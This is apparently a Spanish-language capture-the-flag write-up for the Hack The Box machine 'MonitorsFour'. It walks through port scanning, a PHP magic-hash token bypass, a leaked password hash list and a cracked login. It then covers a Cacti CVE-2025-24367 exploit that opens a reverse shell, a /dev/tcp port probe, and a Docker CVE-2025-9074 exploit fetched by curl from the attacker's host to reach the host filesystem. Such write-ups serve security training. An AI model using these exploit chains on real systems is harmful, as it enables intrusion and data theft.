







# MonitorsFour
Dificultad: Fácil 
Host: Windows

## Scan Nmap
Ejecutamos los siguientes comandos para escanear los puertos abiertos:
``` bash
ip=10.10.11.98

sudo nmap -p- --open -T5 -v -oG ports.txt $ip -n 

sudo nmap -p$(cat ports.txt | grep -oP '\d{2,5}/open' | awk '{print $1}' FS="/" | xargs | tr ' ' ',') -sC -sV $ip -oN results.txt
```
Observamos los resultados 

``` txt
Nmap scan report for monitorsfour.htb (10.10.11.98)
Host is up (0.16s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx
|_http-title: MonitorsFour - Networking Solutions
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ 
```

## Enumeración web 
Enumerando la página, vamos a encontrar un subdomino `cacti`, con la siguiente página de inicio. 


Haciendo un fuzzing de directorios se puede encontrar la ruta /user, donde nos vamos a encontrar una página que devuelve el siguiente mensaje 



El mensaje nos da a entender que se espera que la url finalice de la siguiente manera `user?token=valor`. Por lo que podríamos probar un fuzzing de valores de parámetros para ver qué resultados obtenemos.

Aunque en este caso, se trata de una vulnerabilidad donde PHP compara con el operador `==` y no la igualdad estricta `===`, he aquí un caso de **magic hashes**. El problema es que el código de la página está esperando que se cumpla una comparación de strings, pero cualquier número iniciado en `0e` se toma en PHP como 0 en notación científica, debido a que el comparador `==` transforma los tipos de datos para revisar si coinciden los valores. Entonces, introduciendo un hash como `0e1234`, PHP está evaluando `0==0`, lo que, finalmente, devuelve TRUE.



``` txt 
admin:56b32eb43e6f15395f6c46c1c9e1cd36
mwatson:69196959c16b26ef00b77d82cf6eb169
janderson:2a22dcf99190c322d974c8df5ba3256b
dthompson:8d4a7e7fd08555133e056d9aacb1e519
```
De aquí intuimos otro username para admin: marcus. 

Crackeamos su hash en [crackstation](https://crackstation.net/):



`marcus:wonderful1`

Si ingresamos estas credenciales en el login de Cacti, el inicio de sesión será exitoso. 



## Explotación de Cacti: CVE-2025-24367 - User Flag 
Utilizaremos el siguiente [PoC](https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC) de esta vulnerabilidad de Cacti. Su uso es el siguiente: 

``` bash
sudo python3 exploit.py -u marcus -p wonderful1 -i <tu_ip> -l 4444 -url http://cacti.monitorsfour.htb

[+] Cacti Instance Found!
[+] Serving HTTP on port 80
[+] Login Successful!
[+] Got graph ID: 226
[i] Created PHP filename: i1Mqv.php
[+] Got payload: /bash
[i] Created PHP filename: iYOhw.php
[+] Hit timeout, looks good for shell, check your listener!
[+] Stopped HTTP server on port 80

(En otra terminal)

 nc -lvnp 4444
Connection from 10.10.11.98:58151
bash: cannot set terminal process group (8): Inappropriate ioctl for device
bash: no job control in this shell
www-data@821fbd6a43fa:~/html/cacti$

```
La flag de user se encuentra en `/home/marcus/`.

## Escalada de privilegios 
Si realizamos un escaneo de red interna, vamos a encontrar una dirección IP correspondiente a una API de Docker Engine, puesto que nuestra shell se encuentra en un Docker Container. 

``` bash 
www-data@821fbd6a43fa:~/html/cacti$ cat /etc/resolv.conf
cat /etc/resolv.conf
# Generated by Docker Engine.
# This file can be edited; Docker Engine will not make further changes once it
# has been modified.

nameserver 127.0.0.11
options ndots:0

# Based on host file: '/etc/resolv.conf' (internal resolver)
# ExtServers: [host(192.168.65.7)]
# Overrides: []
# Option ndots from: internal

```

Dicho host, tiene la dirección `192.168.65.7`, ahora lo que resta es averiguar el puerto donde se encuentra el servicio de Docker. Podemos enumerar los puertos abiertos del host desde la shell obtenida con el siguiente comando:

``` bash 
for port in {21,22,80,135,139,443,445,2375,3306,3389,5985,5986,8080}; do timeout 1 bash -c "echo >/dev/tcp/192.168.65.7/$port" 2>/dev/null && echo "Puerto $port ABIERTO" done 
```
Obtendremos la siguiente respuesta: 



### Docker CVE-2025-9074
Utilizamos el siguiente [PoC](https://github.com/BridgerAlderson/CVE-2025-9074-PoC), y vamos a pasarle este script desde nuestra máquina a la shell hosteando un servidor web en donde tengamos el archivo `cve-2025-9074.sh`.

``` bash 
(En nuestra terminal) 
python3 -m http.server 8000 

(En la shell obtenida )

curl -O http://10.10.15.83:8000/cve-2025-9074.sh
chmod +x cve-2025-9074.sh
./cve-2025-9074.sh 192.168.65.7 whoami 2375

```

Deberíamos obtener el siguiente resultado: 



De aquí sólo resta buscar la flag de root jugando ahora con el comando `ls`. La flag se encontrará en `/host_root/mnt/host/c/Users/Administrator/Desktop/root.txt`


